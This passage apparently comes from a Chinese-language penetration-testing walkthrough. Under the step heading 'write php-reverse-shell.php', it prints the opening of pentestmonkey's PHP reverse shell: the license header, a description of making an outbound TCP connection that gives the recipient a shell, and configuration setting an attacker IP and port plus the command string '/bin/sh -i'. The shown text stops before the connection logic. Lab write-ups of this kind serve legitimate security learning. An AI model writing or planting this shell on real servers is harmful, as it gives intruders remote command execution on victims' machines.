 可以执行



#### 写入php-reverse-shell.php

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.3';  // CHANGE THIS
$port = 283;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```